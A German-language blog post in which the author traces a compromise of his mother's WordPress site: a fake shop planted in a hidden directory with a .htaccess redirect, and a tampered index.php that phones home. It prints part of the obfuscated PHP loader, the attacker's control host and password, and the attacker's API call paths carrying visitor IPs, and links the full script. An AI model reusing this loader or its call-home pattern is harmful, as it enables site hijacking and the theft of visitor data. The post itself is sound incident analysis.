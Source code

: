 ```yaml
---
title: "Wordpress Hack"
date: "2021-08-01T19:30:00+02:00"
draft: false
keywords: ["Wordpress", "Hack", "Angriff", "Fakeshop", "Hetzner", "PHP"]
tags: ["Technik"]
description: "Die WordPress-Seite meiner Mutter wurde gehackt und ich mache mich auf die Spurensuche"
summary: "Da meine Mutter selbstständig ist, hat sie natürlich auch eine eigene Webseite, die im Mittelpunkt ihrer Arbeit steht. Nun hat sich aber irgendwer, oder irgendetwas darauf eingenistet und geht nicht mehr so einfach weg."
author:
 - "marius"
---
```


Hin und wieder helfe ich einigen Leuten in meinem Umfeld beim Aufsetzen
und Warten ihrer Internetseiten. So gucke ich immer wieder mal über
die WordPress-Installation meiner Mutter und stelle sicher, dass sie
auch ja alle Updates installiert hat. Einigen von euch stellen sich
die Nackenhaare beim Namen Wordpress wahrscheinlich schon auf (_so
geht es mir auch immer wieder_), aber am Ende bin ich da nur
die ausführende Kraft. Um das einmal klarzustellen: WordPress
ist ein einziges Sicherheitsrisiko. Das verwundert natürlich nicht,
wenn man bedenkt, wie weit verbreitet die Software ist. Sieht man
aber einmal in den Code erkennt man, dass es bei der Entwicklung
kein wirkliches Konzept gegeben hat oder es maximal versucht wurde
nachträglich einzubauen. Da es sich aber mit seinen ganzen Erweiterungen
um ein Gemeinschafts-Projekt handelt, ist es natürlich auch gar nicht
so einfach, einheitlichen und guten Code zu schreiben. Abe rich wäre
ja schon zufrieden, wenn die Datenbank-Verbindung nicht in einer globalen
Variabel von überall aufzurufen wäre.

Der Fake-Shop
-------------
Anfang des Jahres meldete sich dann meine Mutter bei mir, da sich jemand
bei ihr erkundigt hatte, wie der Status einer bestimmten Bestellung sei.
Er habe ein Ersatzteil für seine Modell-Eisenbahn bestellt, bisher aber
noch keine Reaktion erhalten. An dieser Stelle ist zu erwähnen, dass
meine Mutter keinen Shop führt, sondern Fortbildungen anbietet.

Sehr schnell meldete sie sich also bei mir und bat mich um Hilfe.
In der Tat war da ein Shop auf ihrer Seite, den keiner da hin gespielt
hatte. Er sah auch wirklich nicht gut aus, da einzelne Fragmente
(_Bilder, Preise, Beschreibungen_) einfach in die schon existierende
Seite meiner Mutter eingebettet wurden. Wer darauf rein fällt, bettelt
förmlich auch darum. Allerdings ist das natürlich dennoch ein großes
Problem. Schließlich ist da ein Shop von irgendwelchen Betrügern auf
der Seite meiner Mutter, die somit auch dafür (_juristisch_) verantwortlich
ist.

Ich fand heraus, welche Dateien betroffen waren. Es existierte ein
Verzeichnis (_`designthemes`_), welches ich einfach löschen musste.
Zudem wurde die `.htaccess`-Datei modifiziert, sodass Gäste auf
die Seiten im besagten Verzeichnis geleitet wurden. Der Säuberungsprozess
selbst ging also recht schnell. Einen Tag später wurde ich aber wieder
informiert, dass der Shop zurück sei. Das wunderte mich tatsächlich,
beantwortete mir aber die Frage aller Fragen: Wie ist der Shop da
hingekommen?

Die erste Reaktion bei solchen "_Einbrüchen_" ist natürlich erst einmal
der Austausch sämtlicher Passwörter. Um so erstaunter war ich dann aber,
als ich hörte, dass der Shop zurück sei. Ich schloss somit nun aber aus,
dass jemand die FTP-Zugangsdaten herausgefunden hat und sah mir die
WordPress-Installation meiner Mutter noch einmal näher an. Tatsächlich
fand ich ein kompromitiertes PHP-Skript und ein als gif-Datei getarntes
Skript, welche beim Aufruf durch Nutzer immer wieder angestoßen wurde
und unter Anderem den Shop wieder holte.

Bisher hatte ich noch nicht die Zeit gefunden, mir das Problem genaue
anzusehen. Wenn ich aber schon nicht die Ursache nicht so schnell finden
konnte, wollte ich zumindest die Symptome bekämpfen. Schließlich war
meine Mutter hier rechtlich angreifbar und auch ihre Google-Platzierung
litt natürlich darunter.

Was ich also machte, war ein kleines Skript zu schreiben, welches sich
alle 5 Minuten per FTP mit dem Server verbindet und prüft, ob das mysteriöse
Verzeichnis existiert. Wenn es gefunden wird, wird es direkt gelöscht und
die `.htaccess` wiederhergestellt. Das ist natürlich keine Dauerlösung,
aber die hereinzufallenden Besucher erhielten beim Klick auf die immer
weiter sinkenden Google-Ergebnisse nur noch <abbr title="Seite nicht
gefunden">404</abbr>-Seiten, womit das gröbste Problem schon einmal gelöst war.

Nun geht das schon einige Monate so, ich weiß aber noch immer nicht, wo
der Shop immer wieder her kommt. Die besagten beiden Skripte habe ich
mehrfach gelöscht und an anderen Stellen konnte ich keine Hinweise auf
weitere mysteriöse Dateien feststellen. Zumindest hatte ich einmal den
gesamten Dateibaum heruntergeladen und durchsucht. Daher werde ich mir
nun wohl den Code genauer ansehen. Ich sehe es als eine Art Schnitzeljagd
mit PHP-Code.

Die Subdomain
-------------
Seit letzter Woche betreibt meine Mutter eine weitere WordPress-Instanz
auf einer Subdomain. Von einem auf den anderen Tag war diese nicht mehr
zu erreichen. Daher bat sie mich wieder um Hilfe. Zwei Stunden lang sah
ich mir diverse Hetzner-Konfigurationen an und suchte den Grund, wieso
die Subdomain nicht lief. Viel zu spät bemerkte ich erst, dass die
Subdomain an sich funktionierte, allerdings gab das WordPress nur eine
leere Antwort zurück.

Zuerst verdächtigte ich sämtliche WordPress-Erweiterungen irgendeinen
Unfug zu treiben, zumal es eine Fehlermeldung in den Protokollen
bezüglich veralteter Funktionsaufrufe gab. Dann sah ich mir aber
_aus einer Laune heraus_ einfach mal die `index.php` an und sah,
dass sie ganz merkwürdig aussah. Ganz viel "_Security by obscurity_"
war da drin, was ich im Folgenden zeigen möchte.

Zuerst wird die Fehlerausgabe deaktiviert, weswegen meine Versuche mit der
Apache-Konfiguration Fehlermeldungen auszugeben alle scheiterten. Anschließend
werden merkwürdig benannte Strings definiert, die im Anschluss mit
verschiedenen Offsets ausgelesen werden, woraus sich z.B. auch der Hostname
des Control-Servers ergibt.
```php
//CX3_CX4
error_reporting(0);
header('Content-Type: text/html; charset=utf-8');
$OoooOO0 = 'czhnientytwoj';
$OOOOOO = "%71%77%65%72%74%79%75%69%6f%70%61%73%64%66%67%68%6a%6b%6c%7a%78%63%76%62%6e%6d%51%57%45%52%54%59%55%49%4f%50%41%53%44%46%47%48%4a%4b%4c%5a%58%43%56%42%4e%4d%5f%2d%22%3f%3e%20%3c%2e%2d%3d%3a%2f%31%32%33%30%36%35%34%38%37%39%27%3b%28%29%26%5e%24%5b%5d%5c%5c%25%7b%7d%21%2a";
$O = urldecode($OOOOOO);
```

Ganz grob lässt sich sagen, dass das Skript möglichst viele Informationen
sammelt und dann an den eigenen Server weiter gibt (_nach Hause telefoniert_):

 - Dokumenten-Root-Verzeichnis
 - Angefragte URL
 - Hostname
 - Sprache
 - User-Agent (_benutzter Browser_)
 - Referrer (_Von wo der Nutzer weiter geleitet wurde_)
 - Verschlüsselte Kommunikation oder nicht (_`HTTP`/`HTTPS`_)
 - Ggf. abweichendes Protokoll
 - IP des Nutzers

Diese Daten werden gesammelt und anschließend an `czhnientytwoj.fluux.xyz` übermittelt. Den Host-Betreiber der Domain habe ich bereits informiert und eine Antwort steht noch aus. Beim nach Hause telefonieren werden die gesammelten Daten zum einen übertragen, aber vor allem wird auch die "_<abbr title="Schnittstelle">API</abbr>_" des angreifers angesprochen. Dabei wird jedes mal ein Passwort übertragen, dass im Klartext vorhanden und gar nicht mal so gut ist. Es lautet nämlich `sl123`. Das ist aber höchst wahrscheintlich nicht schlimm, weil der Angreifer das sowieso nur nutzt, um genau diese Befehle auszuführen, die in diesem Skript getätigt werden. Bei jedem Besuch der Seite wird somit der Angreifer informiert, dass die Seite meiner Mutter noch online ist und jede Veränderung der übertragenen Daten fällt auch sofort auf.

Insgesamt werden die folgenden (_API-_)Aufrufe getätigt:

```php
/Api/siteAllMap.php?page=' . $rUrl . '&pwd=sl123&domain=' . $typeName
/Api/siteUrlApi.php?stype=sitemap&num=6000&pr=' . $pr . '&url=' . $rUrl . '&domain=' . $typeName . '&ip=' . $client_ip
/jump.php?domain=' . $sName . '&page=' . $rUrl . '&bot=0&pr=' . $pr . '&refer=' . $referer . '&ip=' . $client_ip . '&lg=' . $Ooolg
/918.php?domain=' . $sName . '&page=' . $rUrl . '&bot=1&pr=' . $pr . '&ip=' . $client_ip . '&lg=' . $Ooolg
/org.php?domain=' . $sName . '&page=' . $rUrl . '&pr=' . $pr . '&ip=' . $client_ip . '&lg=' . $Ooolg
```

Somit weiß ich auf jeden Fall, wo ich in den kommenden Tagen ansetzen
und meine Schnitzeljagd fortsetzen kann. Wenn ihr auch Interesse haben
solltet, eröffne ich hiermit die Jagd. Das PHP-Skript könnt ihr als
Text-Datei [hier](/attachments/index_hacked.txt) herunterladen.

Interessant finde ich auch, dass sich der _Angreifer_ nicht die Mühe
gemacht hat, die beiden Zeilen am Ende anzufügen, durch die Wordpress
aufgerufen wird. Wären diese beiden Zeilen dort, wäre der "_Hack_"
vermutlich nicht einmal aufgefallen.

Am Ende frage ich mich nun aber noch immer, wie die beiden Angriffe
funktionieren, damit ich das verhindern kann. esucher der Seite können
eigentlich nichts hochladen. Auch wenn auf der Seite sogar die Kommentarfunktion
ohne Captchas aktiviert war. Seit gestern ist das zumindest auch anders.
Aber ich bezweifle, dass der Angriff jedes mal über die Funktion kommt.
Es bleibt also spannend.
